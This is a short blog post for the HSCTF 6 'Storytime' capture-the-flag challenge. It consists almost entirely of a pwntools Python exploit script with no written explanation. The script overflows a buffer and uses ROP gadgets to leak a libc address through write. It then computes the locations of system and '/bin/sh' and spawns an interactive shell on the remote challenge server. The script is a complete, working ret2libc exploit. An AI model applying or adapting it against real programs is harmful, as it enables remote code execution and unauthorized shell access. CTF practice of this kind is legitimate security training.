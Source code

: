 ```yaml
---
layout: post
published: true
title: 'HSCTF 6: Storytime'
---
```

{% highlight python %}
#Completed
from pwn import *

#p = process("./storytime")
elf = ELF("./storytime")
rop = ROP(elf)


WRITE = elf.plt["write"]
libc_start_main = elf.symbols['__libc_start_main']
climax = 0x000000000040060e


log.info("write@plt: " + hex(WRITE))
log.info("climax address: " + hex(climax))
log.info("__libc_start_main: " + hex(libc_start_main))

padding = "A"*56
ROP_RDI = (rop.find_gadget(["pop rdi", "ret"]))[0]
ROP_RSI = (rop.find_gadget(['pop rsi', 'pop r15', 'ret']))[0] #don't understand
payload = padding + p64(ROP_RDI) + p64(0x1) + p64(ROP_RSI) + p64(libc_start_main) + p64(0x1) + p64(WRITE) + p64(climax) #+ p64(MAIN) 

rm = remote("pwn.hsctf.com", 3333)

#send payload 1
rm.sendline(payload)

rm.recvuntil('story:')

leak = u64(rm.recv()[0:8].strip().ljust(8, '\x00'))

log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))

libc = ELF('libc.so.6')
libc.address = leak -libc.sym['__libc_start_main']
log.info("Address of libc %s " % hex(libc.address))

#Doan nay giong bai truoc (Combo Chain Lite)
BINSH = next(libc.search("/bin/sh"))
SYSTEM = libc.sym['system']

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))

payload2 = padding + p64(ROP_RDI) + p64(BINSH) + p64(SYSTEM)
rm.sendline(payload2)

rm.interactive()
rm.close()
{% endhighlight %}
